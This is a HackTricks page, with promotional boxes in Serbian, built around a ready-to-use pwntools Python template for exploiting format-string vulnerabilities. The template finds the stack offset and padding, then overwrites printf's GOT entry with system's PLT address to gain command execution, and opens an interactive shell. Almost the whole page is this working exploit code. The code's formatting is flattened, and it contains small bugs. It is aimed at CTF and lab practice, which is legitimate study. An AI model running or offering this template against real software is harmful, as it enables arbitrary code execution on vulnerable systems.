 # Format Strings Template

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

\`\`\`python from pwn import \* from time import sleep

\###################

#### CONNECTION

\###################

## Define how you want to exploit the binary

LOCAL = True REMOTETTCP = False REMOTESSH = False GDB = False

## Configure vulnerable binary

LOCAL\_BIN = "./tyler" REMOTE\_BIN = "./tyler" #For ssh

## In order to exploit the format string you may need to append/prepend some string to the payload

## configure them here

PREFIX\_PAYLOAD = b"" SUFFIX\_PAYLOAD = b"" NNUM\_ALREADY\_WRITTEN\_BYTES = 0 MAX\_LENTGH = 999999 #Big num if not restricted

print(" ====================== ") print("Selected options:") print(f"PREFIX\_PAYLOAD: {PREFIX\_PAYLOAD}") print(f"SUFFIX\_PAYLOAD: {SUFFIX\_PAYLOAD}") print(f"NNUM\_ALREADY\_WRITTEN\_BYTES: {NNUM\_ALREADY\_WRITTEN\_BYTES}") print(" ====================== ")

def connect\_binary(): global P, ELF\_LOADED, ROP\_LOADED

if LOCAL: P = process(LOCAL\_BIN) # start the vuln binary ELF\_LOADED = ELF(LOCAL\_BIN)# Extract data from binary ROP\_LOADED = ROP(ELF\_LOADED)# Find ROP gadgets

elif REMOTETTCP: P = remote('10.10.10.10',1338) # start the vuln binary ELF\_LOADED = ELF(LOCAL\_BIN)# Extract data from binary ROP\_LOADED = ROP(ELF\_LOADED)# Find ROP gadgets

elif REMOTESSH: ssh\_shell = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0', port=2220) P = ssh\_shell.process(REMOTE\_BIN) # start the vuln binary ELF\_LOADED = ELF(LOCAL\_BIN)# Extract data from binary ROP\_LOADED = ROP(elf)# Find ROP gadgets

\#######################################

#### Get format string configuration

\#######################################

def send\_payload(payload): payload = PREFIX\_PAYLOAD + payload + SUFFIX\_PAYLOAD log.info("payload = %s" % repr(payload)) if len(payload) > MAX\_LENTGH: print("!!!!!!!!! ERROR, MAX LENGTH EXCEEDED") P.sendline(payload) sleep(0.5) return P.recv()

def get\_formatstring\_config(): global P

for offset in range(1,1000): connect\_binary() P.clean()

payload = b"AAAA%" + bytes(str(offset), "utf-8") + b"$p" recieved = send\_payload(payload).strip()

if b"41" in recieved: for padlen in range(0,4): if b"41414141" in recieved: connect\_binary() payload = b" "\*padlen + b"BBBB%" + bytes(str(offset), "utf-8") + b"$p" recieved = send\_payload(payload).strip() print(recieved) if b"42424242" in recieved: log.info(f"Found offset ({offset}) and padlen ({padlen})") return offset, padlen

else: connect\_binary() payload = b" " + payload recieved = send\_payload(payload).strip()

## In order to exploit a format string you need to find a position where part of your payload

## is being reflected. Then, you will be able to put in the position arbitrary addresses

## and write arbitrary content in those addresses

## Therefore, the function get\_formatstring\_config will find the offset and padd needed to exploit the format string

offset, padlen = get\_formatstring\_config()

## In this template, the GOT of printf (the part of the GOT table that points to where the printf

## function resides) is going to be modified by the address of the system inside the PLT (the

## part of the code that will jump to the system function).

## Therefore, next time the printf function is executed, system will be executed instead with the same

## parameters passed to printf

## In some scenarios you will need to loop1 more time to the vulnerability

## In that cases you need to overwrite a pointer in the .fini\_array for example

## Uncomment the commented code below to gain 1 rexecution extra

\#P\_FINI\_ARRAY = ELF\_LOADED.symbols\["\_\_init\_array\_end"] # .fini\_array address #INIT\_LOOP\_ADDR = 0x8048614 # Address to go back SYSTEM\_PLT = ELF\_LOADED.plt\["system"] P\_GOT = ELF\_LOADED.got\["printf"]

\#log.info(f"Init loop address: {hex(INIT\_LOOP\_ADDR)}") #log.info(f"fini.array address: {hex(P\_FINI\_ARRAY)}") log.info(f"System PLT address: {hex(SYSTEM\_PLT)}") log.info(f"Printf GOT address: {hex(P\_GOT)}")

connect\_binary() if GDB and not REMOTETTCP and not REMOTESSH:

## attach gdb and continue

## You can set breakpoints, for example "break \*main"

gdb.attach(P.pid, "b \*main") #Add more breaks separeted by "\n" sleep(5)

format\_string = FmtStr(execute\_fmt=send\_payload, offset=offset, padlen=padlen, numbwritten=NNUM\_ALREADY\_WRITTEN\_BYTES) #format\_string.write(P\_FINI\_ARRAY, INIT\_LOOP\_ADDR) format\_string.write(P\_GOT, SYSTEM\_PLT) format\_string.execute\_writes()

## Now that printf function is executing system you just need to find a place where you can

## control the parameters passed to printf to execute arbitrary code.

P.interactive()

```
<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJE**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
```
